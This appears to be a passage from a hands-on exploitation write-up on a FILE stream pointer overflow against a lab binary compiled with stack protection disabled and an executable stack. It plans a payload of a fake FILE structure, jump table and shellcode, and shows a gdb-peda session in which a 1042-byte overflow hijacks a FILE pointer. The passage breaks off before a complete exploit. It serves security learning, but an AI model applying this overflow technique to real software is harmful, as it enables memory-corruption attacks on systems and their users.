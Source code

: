 ```shell
gcc -fno-stack-protector -z execstack -o file file.c
```

The content of input buffer should be:
[1]{ Fake FILE Stream Structure }--->[2]{ Fake jumptable }--->[3]{ Shellcode }--->[4]{ Addresses of the Fake FILE Stream Structure }
But personally, I think it didn't work according to the File Stream Pointer Overflows Paper when the fake FILE structure is filled with the address of jumptalbe.(I've tried many times!). So I will change a mind.

Fisrt let's calculate the distance between variable stage and test. It's 1042 bytes. So we can overwrite the FILE pointer test:
```shell
gdb-peda$ r `python -c 'print "a"*1042 + "AAAA"'`
Starting program: /home/wolfzhang/Desktop/file `python -c 'print "a"*1042 + "AAAA"'`
len: 1042

Program received signal SIGSEGV, Segmentation fault.

 [----------------------------------registers-----------------------------------]
EAX: 0x16 
EBX: 0xb7fc0000 --> 0x1a9da8 
ECX: 0x8048500 (<main+19>:	outs   dx,BYTE PTR ds:[esi])
EDX: 0x100 
ESI: 0x41414141 ('AAAA')
EDI: 0x16 
EBP: 0xbfffebb8 --> 0x0 
ESP: 0xbfffe750 --> 0xbfffeb9a ('a' <repeats 18 times>, "AAAA")
EIP: 0xb7e7a0c4 (<__GI__IO_fputs+36>:	mov    eax,DWORD PTR [esi])
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xb7e7a0ba <__GI__IO_fputs+26>:	mov    DWORD PTR [esp],eax
   0xb7e7a0bd <__GI__IO_fputs+29>:	call   0xb7e90d20 <__strlen_ia32>
   0xb7e7a0c2 <__GI__IO_fputs+34>:	mov    edi,eax
=> 0xb7e7a0c4 <__GI__IO_fputs+36>:	mov    eax,DWORD PTR [esi]
   0xb7e7a0c6 <__GI__IO_fputs+38>:	and    eax,0x8000
   0xb7e7a0cb <__GI__IO_fputs+43>:	jne    0xb7e7a102 <__GI__IO_fputs+98>
   0xb7e7a0cd <__GI__IO_fputs+45>:	mov    edx,DWORD PTR [esi+0x48]
   0xb7e7a0d0 <__GI__IO_fputs+48>:	mov    ebp,DWORD PTR gs:0x8
[------------------------------------stack-------------------------------------]
0000| 0xbfffe750 --> 0xbfffeb9a ('a' <repeats 18 times>, "AAAA")
0004| 0xbfffe754 --> 0xb7fc0000 --> 0x1a9da8 
0008| 0xbfffe758 --> 0x0 
0012| 0xbfffe75c --> 0x0 
0016| 0xbfffe760 --> 0xbfffebb8 --> 0x0 
0020| 0xbfffe764 --> 0xb7ff2500 (<_dl_runtime_resolve+16>:	pop    edx)
0024| 0xbfffe768 --> 0xbfffeba3 ("aaaaaaaaaAAAA")
0028| 0xbfffe76c --> 0xb7fc0000 --> 0x1a9da8 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
__GI__IO_fputs (str=0xbfffeb9a 'a' <repeats 18 times>, "AAAA", fp=0x41414141) at iofputs.c:38
38	iofputs.c: No such file or directory.

gdb-peda$ x/30xw $ebp-0x20
0xbfffeb98: 0x61616161  0x61616161  0x61616161  0x61616161
0xbfffeba8: 0x61616161  0x41414141  0x08048500  0x00000000
```
The program crached because of the FILE structure at AAAA which is not a valid address. 
So next let's make a fake FILE structure. You know it's kind of difficult to make a fake FILE structure manually. So just take stderr(stdin or stdout) as the fake structure.
